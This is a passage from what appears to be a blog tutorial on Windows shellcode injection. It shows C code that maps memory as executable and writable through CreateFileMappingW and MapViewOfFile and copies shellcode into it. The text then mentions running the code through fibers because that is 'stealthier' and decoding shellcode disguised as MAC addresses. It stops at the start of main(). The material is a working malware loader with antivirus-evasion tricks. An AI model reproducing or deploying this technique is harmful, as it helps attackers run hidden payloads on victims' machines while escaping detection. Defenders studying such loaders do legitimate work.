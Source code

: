 // Map a memory region into our process with PAGE_EXECUTE_READWRITE permissions

	Hmap = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, shell_size, NULL);
	if (Hmap == NULL) {
			printf("[!] CreateFileMapping Failed With Error : %d \n", GetLastError());
			return FALSE;
		}


{{< /highlight >}}

Then we will use the WinAPI [MapViewOfFile](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile) to open the mapped region and make it writable and executable. After that, we’ll simply copy the shellcode into the mapped memory.


{{< highlight c >}}

// Modifying the mapped memory to make it writable and executable
	modified_map = MapViewOfFile(Hmap, FILE_MAP_WRITE | FILE_MAP_EXECUTE, NULL, NULL, shell_size);

	if (modified_map == NULL) {
		printf("[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

    // copying the shellcode to the mapped memory 
	memcpy(modified_map, shell_add, shell_size);


    // Retrieving the address of the modified mapped memory

	*map_address = modified_map;

    // Closing the file mapping handle to free system resources
	if (Hmap) {
	
		CloseHandle(Hmap);
	}


	return TRUE;

}

{{< /highlight >}}




In main, we’ll use [fibers](https://aft3rd4rk.github.io/posts/fiber-injection/) instead of CreateThread for execution (stealthier).
We also call MacDeobfuscation to decode the MAC-address-like shellcode into raw bytes before injecting it.



{{< highlight c >}}
int main()
{

	